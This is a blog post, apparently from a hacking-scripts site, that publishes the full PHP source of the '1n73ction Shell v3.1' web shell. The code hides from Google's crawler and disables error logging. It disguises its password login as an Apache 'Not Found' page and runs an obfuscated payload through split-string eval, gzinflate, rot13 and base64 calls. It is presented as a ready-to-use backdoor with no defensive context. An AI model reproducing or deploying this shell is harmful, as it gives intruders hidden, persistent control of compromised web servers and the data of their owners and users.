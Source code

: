 ```yaml
---
id: 234
title: 1n73ction Shell
author: admin
layout: post
guid: http://hackingscripts.com/?p=234
permalink: /1n73ction-shell/
categories:
  - PHP
tags:
  - 1n73ction
  - PHP
---
```

1n73ction Shell v3.1 by x&#8217;1n73ct


### 1n73ction Shell v3.1 Source Code

{% highlight php %}<?php
/* (1n73ction shell v3.1 by x'1n73ct|default pass:" 1n73ction ") */ 
$auth_pass = "b75d0fe83fb0e1631a47868c279c1c56"; 
$color = "#00ff00"; 
$default_action = 'FilesMan'; 
@define('SELF_PATH', __FILE__); 
if( strpos($_SERVER['HTTP_USER_AGENT'],'Google') !== false ) { 
    header('HTTP/1.0 404 Not Found'); 
    exit; 
} 
@session_start(); 
@error_reporting(0); 
@ini_set('error_log',NULL); 
@ini_set('log_errors',0); 
@ini_set('max_execution_time',0);
@ini_set('output_buffering',0); 
@ini_set('display_errors', 0);
@set_time_limit(0); 
@set_magic_quotes_runtime(0); 
@define('VERSION', '2.1'); 
if( get_magic_quotes_gpc() ) { 
    function stripslashes_array($array) { 
        return is_array($array) ? array_map('stripslashes_array', $array) : stripslashes($array); 
    } 
    $_POST = stripslashes_array($_POST); 
} 
function printLogin() { 
    ?> 
&lt;h1&gt;Not Found&lt;/h1&gt; 
&lt;p&gt;The requested URL was not found on this server.&lt;/p&gt; 
&lt;hr&gt; 
&lt;address&gt;Apache Server at <?=$_SERVER['HTTP_HOST']?> Port 80&lt;/address&gt; 
    &lt;style&gt; 
        input { margin:0;background-color:#fff;border:1px solid #fff; } 
    &lt;/style&gt; 
    &lt;center&gt; 
    &lt;form method=post&gt; 
    &lt;input type=password name=pass&gt; 
    &lt;/form&gt;&lt;/center&gt; 
    <?php 
    exit; 
} 
if( !isset( $_SESSION[md5($_SERVER['HTTP_HOST'])] )) 
    if( empty( $auth_pass ) || 
        ( isset( $_POST['pass'] ) && ( md5($_POST['pass']) == $auth_pass ) ) ) 
        $_SESSION[md5($_SERVER['HTTP_HOST'])] = true; 
    else 
        printLogin();
		@ini_set('output_buffering',0); 
@ini_set('display_errors', 0);
function x($inject){eval("\$z=gz" . "inf" . "la" . "te(s" . "t" . "r_r" . "ot" . "13(ba" . "se" . "6" . "4" . "_" . "d" . "e" . "c" . "o" . "de(st" . "r" . "_" . "r" . "o" . "t" . "13(" . "gzi" . "nf" . "lat" . "e(" . "bas" . "e6" . "4_d" . "ec" . "ode(\$inject))))));eval(\$z);");}
x("DczdFkIwAADgB3Kx4+f4uehiJyJFM0bcjYPKqGbFPH19D/Adch2iLn+Qan8XlupmvkrlMEVX3NtyDS2gc9nTGF4X0yHDKSAFnPHHOkwhFNw5v0XIqMdyAylyc5r0ReRkzlhmX8y5Fizfz5rpiQsaz7jdWXZDUbJdcN2KqfRPLWnrJ6t88P9SpB5TNIws6KCxxSXvo3EugK2kQKNA2M66mLG72/0A");
?>
{% endhighlight %}